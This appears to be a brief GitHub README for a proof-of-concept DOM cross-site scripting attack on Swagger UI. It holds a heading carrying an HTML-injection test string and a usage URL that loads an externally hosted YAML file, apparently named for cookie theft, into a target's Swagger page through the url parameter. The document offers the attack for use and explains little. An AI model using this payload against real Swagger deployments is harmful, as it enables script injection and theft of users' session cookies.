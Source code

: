 # hello2<>'"hello2
this is PoC for swagger DOM Xss :)

# usage
https://test.com/swagger_file/index.html?url=https://alharbe0.github.io/test_cookies.yaml

